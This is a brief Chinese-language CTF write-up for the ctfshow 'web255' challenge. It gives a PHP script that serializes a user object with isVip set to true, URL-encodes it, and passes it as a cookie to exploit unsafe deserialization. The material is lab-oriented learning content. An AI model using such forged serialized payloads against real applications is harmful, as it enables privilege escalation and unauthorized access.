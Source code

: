 # web255
修改为
```
<?php
class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=true;
}
$a=new ctfShowUser();
$b=serialize($a);
echo urlencode($b);
```
在cookie处传入序列化数据
这里的cookie需要url编码
![](vx_images/425533256303596.png)